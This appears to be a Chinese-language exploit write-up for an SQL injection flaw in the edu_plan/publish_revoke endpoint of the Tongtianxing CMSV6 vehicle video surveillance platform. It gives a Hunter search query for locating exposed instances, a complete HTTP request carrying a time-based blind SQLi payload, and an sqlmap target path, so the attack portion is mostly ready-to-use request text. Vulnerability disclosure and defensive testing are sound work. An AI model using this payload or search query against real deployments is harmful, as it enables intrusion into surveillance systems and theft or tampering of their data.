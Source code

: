 # 通天星CMSV6车载视频监控平台 edu_plan/publish_revoke存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台edu_plan/publish_revoke存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/9E0H1R1a5szPPVSd/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-322983.png)

# 四、漏洞复现
```java
GET /edu_plan/publish_revoke;downloadLogger.action?id=(SELECT+5394+FROM+(SELECT(SLEEP(5)))tdpw)--+&value=1  HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=58586A7CBD64C381945F9AAACFDF7C40
Connection: close
Content-Length: 0
```

![1712850376800-629599b5-79ae-4705-be10-63f45108cdf7.png](./img/9E0H1R1a5szPPVSd/1712850376800-629599b5-79ae-4705-be10-63f45108cdf7-900919.png)

sqlmap

```java
/edu_plan/publish_revoke;downloadLogger.action?id=1&value=1
```

![1712850484377-d0dfc585-b34b-4487-af07-28d3d4d80f8a.png](./img/9E0H1R1a5szPPVSd/1712850484377-d0dfc585-b34b-4487-af07-28d3d4d80f8a-063750.png)



> 更新: 2024-12-28 13:05:34  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tsz08zvrgv6ne5b7>